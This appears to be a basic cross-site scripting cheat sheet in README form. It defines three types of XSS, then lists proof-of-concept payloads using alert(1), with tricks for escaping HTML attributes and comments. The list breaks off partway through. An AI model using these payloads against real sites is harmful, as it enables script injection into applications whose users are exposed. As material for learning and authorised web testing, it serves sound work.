 # XSS Cheat Sheet (Basic)

## Introduction
Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into websites. There is 3 types of XSS Attack:
- Reflected XSS

    Attack where the malicious script runs from another website through the web browser    
- Stored XSS
  
    Stored attacks are those where the injected script is permanently stored on the target servers
- DOM-Based XSS

    A type of XSS that has payloads found in the DOM rather than within the HTML code.

## Payloads
1. Basic payload
```html
<script>alert(1)</script>
<svg/onload=alert(1)>
<img src=x onerror=alert(1)>
```

2. Add ' or " to escape the payload from value of an HTML tag
```html
"><script>alert(1)</script>
'><script>alert(1)</script> 
```

* Example source code
```html
<input id="keyword" type="text" name="q" value="REFLECTED_HERE">
```

* After input the payload
```html
<input id="keyword" type="text" name="q" value=""><script>alert(1)</script>
```

3. Add --> to escape the payload if input lands in HTML comments.
```html
--><script>alert(1)</script>
```

* Example source code
```html
<!-- REFLECTED_HERE --> 
```

* After input the payload
```html
<!-- --><script>alert(1)</script> -->
```

4. Add </tag> when the input inside or between opening/closing tags, tag can be ```<a>,<title>,<script>``` and any other HTML tags
    